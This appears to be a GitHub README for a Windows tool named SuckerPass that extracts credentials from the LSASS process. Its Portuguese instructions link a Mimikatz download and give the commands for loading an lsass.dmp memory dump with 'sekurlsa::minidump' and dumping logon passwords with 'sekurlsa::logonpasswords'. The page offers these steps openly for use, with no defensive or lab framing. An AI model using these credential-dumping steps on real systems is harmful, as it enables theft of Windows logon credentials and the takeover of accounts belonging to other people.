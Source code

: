 # SuckerPass
SuckerPass is a specialized utility designed for Windows systems, with the primary purpose of capturing and extracting information from the LSASS (Local Security Authority Subsystem Service) process. LSASS is a crucial component of the Windows operating system responsible for handling local security, user authentication, and credential management.

![SuckerPass Logo](img/Sucker.PNG)

## Instruções para Usar Mimikatz

1. **Download do Mimikatz:**
   - Faça o download da última versão do Mimikatz [aqui](https://github.com/ParrotSec/mimikatz/raw/master/Win32/mimikatz.exe).

2. **Executar o Mimikatz como Administrador:**
   - Abra um terminal ou prompt de comando como administrador.

3. **Executar os Seguintes Comandos:**
   - Navegue até o diretório onde o Mimikatz foi baixado.
   - Execute o Mimikatz como administrador.
     ```bash
     cd caminho\para\o\diretorio\do\mimikatz
     .\mimikatz.exe
     ```

   - Dentro do Mimikatz, use os comandos apropriados para suas necessidades. Por exemplo:
     ```plaintext
     mimikatz # sekurlsa::minidump c:\caminho\do\arquivo\dump\lsass.dmp
     mimikatz # sekurlsa::logonpasswords
     ```
